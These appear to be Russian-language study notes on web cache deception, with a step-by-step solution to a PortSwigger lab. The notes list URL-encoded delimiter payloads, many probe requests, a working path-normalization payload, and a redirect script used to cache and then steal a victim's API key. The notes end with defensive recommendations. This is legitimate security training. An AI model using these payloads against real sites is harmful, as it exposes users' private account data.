





немного новой теории по теме обмана кеша
# Расхождения декодирования разделителя

иногда в адрессе URL используются спец символы (разделители)
и для того, чтобы определять эти символы как данные - их нужно кодировать

СПИСОК ВОЗМОЖНЫХ РАЗДЕЛИТЕЛЕЙ     можно быстро через интрудер прогнать
```c
! " # $ % & ' ( ) * + , - . / : ; < = > ? @ [ \ ] ^ _ ` { | } ~ 

! : %21
" : %22
# : %23
$ : %24
% : %25
& : %26
' : %27
( : %28
) : %29
* : %2A
+ : %2B
, : %2C
- : %2D
. : %2E
/ : %2F
: : %3A
; : %3B
< : %3C
= : %3D
> : %3E
? : %3F
@ : %40
[ : %5B
\ : %5C
] : %5D
^ : %5E
_ : %5F
` : %60
{ : %7B
| : %7C
} : %7D
~ : %7E

(пробел) : %20 или +
(табуляция) : %09
(новая строка) : %0A
(возврат каретки) : %0D
(null byte) : %00


"%21",
"%22",
"%23",
"%24",
"%25",
"%26",
"%27",
"%28",
"%29",
"%2A",
"%2B",
"%2C",
"%2D",
"%2E",
"%2F",
"%3A",
"%3B",
"%3C",
"%3D",
"%3E",
"%3F",
"%40",
"%5B",
"%5C",
"%5D",
"%5E",
"%5F",
"%60",
"%7B",
"%7C",
"%7D",
"%7E",
"%20",
"%09",
"%0A",
"%0D",
"%00"
----------------
"!",
"",
"#",
"$",
"%",
"&",
"'",
"(",
")",
"*",
"+",
",",
"-",
".",
"/",
":",
";",
"<",
"=",
">",
"?",
"@",
"[",
"\\",
"]",
"^",
"_",
"`",
"{",
"|",
"}",
"~",
" ",
"	",
"?",
"\0"

```


сервер и кеш могут по разному читать данные символы, кто-то может декодировать, а кто-то нет

например: запрос:   /profile%23wcd.css парсится сервером в  /profile так как %23 это # которая отрежит хвост
и сервер вернет валидную страницу profile с данными
а вот кеш может взять запрос целиком - без декодировки и прочтет расширение пути как .css
и если у кеша тут правило кешировать тип .css - тогда страница с чувствительными данными может поспать в общий кеш CDN ! что является уязвимостью!

---

другой случай - когда кеш-сервер сперва может и потом уже отправляет запрос декодированный!

бывают случаи - когда сперва применяется правило кеша, и потом уже декодируется запрос

пример: 

/myaccount%3fwcd.css  где  %3f это ? (? отделяет путь от параметров запроса )

и например кеш-сервер может принять /myaccount%3fwcd.css целиком и решить его кешировать из-за расширения .css, и после чего декодирует %3f в ? и на сервер уходит /myaccount?fwcd.css, и сервер тут уже отрежет часть запроса после ?  , и запрос станет валидным /myaccount

в итоге в кеше сохраниться ответ страницы с серетами /myaccount

также не стоит забывать испытывать такие невидимые символы как ==%00==, ==%0A== and ==%09==

----

# Использование правил кэша статического каталога

также не стоит забывать испытывать такие невидимые символы как ==%00==, ==%0A== and ==%09==
### Несоответствия нормализации

Нормализация = преобразование различных представлений путей URL в стандартизированный формат

это включает в себя декодирование закодированных символов и разрешение точных сегментов
и может быть множество вариантов синтаксиса
что создает много возможностей для обхода пути на который можно попасть:

*ПРИМЕР*  запрос   /static/..%2fprofile  где %2f  это /  разделитель сегментов пути

такой запрос сервер может декодировать и вернуть страницу /static/../profile

но при этом, кеш-сервер может принять /static/..%2fprofile за запрос который нужно кешировать так как в нем путь заканчивается на /static и сохранить запрос в кеш.

(вохможно придется точки тоже кодировать)

---

### Обнаружение нормализации исходным сервером

если у нас запрос оригинальный ==/profile==
то можно попробовать добавить ПЕРЕД ним какое-либо значение
например ==/aaa/..%2fprofile==

и если сервер  вернет в ответе туже страницу что и в оригинале - значит исходный сервер декодирует косую черту и разрешает точечный сегмент.

Если ответ не соответствует базовому ответу, например, возвращая сообщение об ошибке `404`, это указывает на то, что путь был интерпретирован как `/aaa/..%2fprofile`. Исходный сервер либо не декодирует косую черту, либо не разрешает точечный сегмент

>(начните с кодирования только второй косой черты в точечном сегменте. Это важно, потому что некоторые CDN соответствуют косой черте после префикса статического каталога.)
>также нужно пробовать кодировать и саму точку

----

### Обнаружение нормализации кэш-сервером

чтобы это обнаружить - необходимо искать в **Proxy > HTTP history**  запросы 
==с общими префиксами статических каталогов и кэшируемыми ответами==
через фильтр можно найти ответы с 2xx ответами и скриптами, изображениями и типами CSS MIME

например запрос                     /assets/js/stockCheck.js  
можно переделать в /aaa/..%2fassets/js/stockCheck.js

- Если ответ больше не кэшируется, это указывает на то, что кэш не нормализует путь перед сопоставлением его с конечной точкой. Это показывает, что существует правило кэша, основанное на префиксе   /assets
- Если ответ все еще кэширован, это может указывать на то, что кэш нормализовал путь к /assets/js/stockCheck.js
- 
==========================================================================

также можно попробовать модификации
из    /assets/js/stockCheck.js  переделать в  /assets/..%2fjs/stockCheck.js

- Если ответ больше не кэшируется, это указывает на то, что кэш декодирует косую черту и разрешает точечный сегмент во время нормализации, интерпретируя путь как `/js/stockCheck.js`. Это показывает, что существует правило кэша, основанное на префиксе`/assets`.
- Если ответ все еще кэширован, это может указывать на то, что кэш не декодировал косую черту или не разрешил точечный сегмент, интерпретируя путь как `/assets/..%2fjs/stockCheck.js`.

# слепой обман кеша
в том числе бывают слепые случаи - когда невозможно определить, кешируется страница или нет, и тогда нужно просто проверять это через эксплойт
-------------------------------------------------------------------------------------


### Использование нормализации исходным сервером

Если исходный сервер разрешает закодированные точные сегменты, а кэш нет, вы можете попытаться использовать несоответствие, создав полезную нагрузку в соответствии со следующей структурой:

`/<static-directory-prefix>/..%2f<dynamic-path>`

пример:   запрос    /assets/..%2fprofile

- Кэш интерпретирует путь следующим же путем:`/assets/..%2fprofile`
- Исходный сервер интерпретирует путь как:`/profile`

Исходный сервер возвращает информацию о динамическом профиле, которая хранится в кэше.

-------

# ❇️❇️❇️❇️❇️❇️❇️ решение лабы
#  Exploiting origin server normalization for web cache deception
https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-origin-server-normalization
# Использование нормализации исходного сервера для обмана веб-кэша

задача: 
найдите ключ API для пользователя `carlos`
моя учетка wiener:peter

---

сразу нахожу цель = api ключ




```http
ориг запрос 
GET /my-account HTTP/2     ответ на 3977 байт 110мс  прихнаков что он кешируется - нет

GET /my-account#   404
GET /my-account%23 404

GET /my-account../fsd.js   404
GET /my-account../         404
GET /my-account../fsd      404

GET /my-account..%2Ffsd.js   404
GET /my-account..%2F         404
GET /my-account..%2Ffsd      404

GET /my-account%2E%2E%2f     404


```

прогнал через интрудер все варинаты кодир спец символов - везде ответ один 404 (в том числе менял на пост запрос)




значит можно пробовать менять запрос в самом начале


```http
ориг запрос 
GET /my-account HTTP/2                              на 3977байт  

------
GET /assets/..%2fmy-account HTTP/2  ЕСТЬ! ответ 200 на 3977байт без кеш заголовков
возможно заголовки скрыты будут но благодаря assets кеш-сервер будет сохранять в кеш запрос
Исходный сервер интерпретирует путь как: /my-account
-------

GET /dfwef/..%2fmy-account HTTP/2         тоже 200 на  3977байт
GET /dfwef/%2E%2E%2fmy-account HTTP/2     тоже 200 на  3977байт
GET /dfwef/../..%2fmy-account HTTP/2      тоже 200 на  3977байт
-----

GET /assets/.js%2f..%2fmy-account HTTP/2   -404
GET /assets/js%2f..%2fmy-account HTTP/2    -404
GET /assets/%2Ejs%2f..%2fmy-account HTTP/2 -404

GET /assets/..%2fmy-account%2fjs           -404

GET /dfwef/%6A%73/..%2fmy-account HTTP/2   -404
GET /dfwef/js/..%2fmy-account HTTP/2       -404
GET /dfwef%2f.js%2f..%2fmy-account HTTP/2  -404
GET /dfwef/js%2f..%2fmy-account HTTP/2     -404
GET /dfwef%2f%6A%73%2f..%2fmy-account HTTP/2 -404
---
GET /dfwef/..%2fmy-account%2f..%2f     вообще дает ответ 8960 байт возвращая страницу из блога!
GET /dfwef/..%2fmy-account/../ HTTP/2  вообще дает ответ 8960 байт возвращая страницу из блога!
---

GET /dfwef/..%2fmy-account%2fassets%2f   -404

=----
пробовал проверить, вдруг на самом деле запрос все-таки в кеш попадает
<script>documet.location="https://0a29005104cc516b804322230096002f.web-security-academy.net/assets/..%2fmy-account"</script> пробовал для запроса GET /assets/..%2fmy-account HTTP/2 
но пришет ответ запрос от сервера с моими параметрами

---
GET /assets/..%2fmy-account%00 HTTP/2         ответ 500     Server Error
GET /assets/..%2fmy-account%25%30%30 HTTP/2   ответ 404     Not Found


```

запустил интрудер GET /.css/..%2fmy-account HTTP/1.1
	на всевозможные пейлоады с расширениями ".css",
".js",
".html",
".htm", и так далее... полный список есть тут [[2_WCD_]]
но все ответы одинаковые абсолютно!

----

запустил пейлоад всех символов в запрос GET /js/..%2fmy-account%2521ggg HTTP/1.1
но разницы в ответах нет кроме нулевого байта и } > < { 


----

## вручную подставил символ ? и вуаля - ответ 200 на 3977 байт
GET /js/..%2fmy-account%3Fgg HTTP/2 ответ 404 !
GET /js/..%2fmy-account?gg HTTP/2      ответ 200 на 3977 байт

разобрался, оказывается, мой пейлоад в интрудере не мог подставить символ ? вопроса, поэтому все предыдыщие попытки провалились!
а при ручной подстановке - запрос выполнился успешно!
мой скрипт кодировал мой пейлоад в формат %3F : а как каз символ вопрос в обычно не кодируется в запросах по умолчанию!

вот ошибка скрипта - ('%s', encoded_payload) он кодирует ))))
```python

    for payload in payloads:
        encoded_payload = quote(payload, safe='')
        final_request = target.req.replace('%s', encoded_payload)
        requests.append(final_request)
      
```
нужно так:
```python
for payload in payloads:
        final_request = target.req.replace('%s', payload)
        requests.append(final_request)
```

исправил пейлоад и все сразу ззаработало!!!!! емае!!! как-так-то?




---

итак: 

```http
GET /js/..%2fmy-account?js HTTP/2      этот запрос тоже возвращает мне  200 с 3977 байт
GET /js/..%2fmy-account?.js            200 с 3977 байт

GET /my-account HTTP/2                 ориг запрос  200 с 3977 байт

GET /assets/..%2fmy-account HTTP/2     200 с 3977 байт
```
то есть можно сказать, что видимо хоть браузер и пропускает такие запросы, но сам сервер из интерпритирует как просто   /my-account

теперь нужно понять как сделать так, чтобы кеш-сервер понял, что этот запрос нужно сохранить в кеш?

---

просмотрев еще раз историю я заметил, что там есть валидные пути, которые можно пробовать использовать, так как они возвращают нам файл типа css




подставил эту часть пути в то место где точно получалось подставлять любые значения

вот так 
```http
GET /resources/..%2fmy-account HTTP/2   ответ 200 4027 байт! +++кеш заголовки 
Cache-Control: max-age=30
Age: 0
X-Cache: miss

супер-теперь этот запрос и содержит api + хранится в кеше на 30 сек!
```




как в предыдущих лабах

я имея свой сайт "от лабы"

создал там простецкий скрипт который запускает ссылку которую я сформировал из запроса 
GET /resources/..%2fmy-account
я заставил жертву просто перейти по этой ссылке - и ее кеш (ответ на запрос) сохранился в глобальном общедоступном кеше на 30 сек, так как Cache-Control: max-age=30

на сервере своего сайта я просмотрел логи (я также использовал свою собственную облачную функцию которая логирует все запросы  к ней) и когда я увидел, что жертва посетила мою страницу со скриптом ниже, то значит она перешла по ссылке с путем /resources/..%2fmy-account , который сохранил на 30 сек кеш жертвы

```html
Hello, world!
<script>document.location="https://0a29005104cc516b804322230096002f.web-security-academy.net/resources/..%2fmy-account"</script>
```

и тогда я быстро перешел по этой же ссылке сам и получил все данные жертвы в том числе ее APi key

# ### **Как предотвратить Web Cache Deception (WCD)**

Уязвимость сработала, потому что система нарушила базовый принцип: **"Если ответ зависит от авторизации пользователя (сессии, кук), его нельзя кэшировать для общего доступа (`public`)"**.
---


# **Что делать** чтобы избежать таких уяз ?
# 1=
бекенд
сервер должен четко валидировать директории. и если путь не соответствует разрешенному - тогда **404 Not Found**
не игнорировать окончание путей и расширения
# 2=
бекенд
**Жёстко контролировать заголовки `Cache-Control`**
всегда отправлять:  Cache-Control: private, no-store, max-age=0`
Явно запрещает любым промежуточным кэшам (CDN) сохранять этот ответ!
# 3= 
со стороны **Администратор (CDN/Прокси)**
Запретить переопределять `private` и `no-store`.
Четко подчиняться  Cache-Control
# 4= 
со стороны **Администратор (CDN/Прокси)**
**Настроить кэширование по Content-Type ответа, а не по расширению в URL.**
Устраняет слепое доверие к пути в URL. Если сервер ошибочно отдал `text/html` по пути `.css`, такой ответ не будет закэширован
# 5= 
со стороны **Администратор (CDN/Прокси)**
**Использовать заголовок `Vary`.**Принудительно добавлять `Vary: Cookie, Authorization`для всех ответов от защищённых областей.
Гарантирует, что для каждого уникального значения Cookie будет создана отдельная кэш-запись.
 **это несоответствие ключа кэша**: Кэш  формировал ключ на основе **полного URL**(включая `;.js`), но **не учитывал заголовки авторизации** (Cookie). Это привело к тому, что ответ пользователя A стал доступен пользователю B.

-----


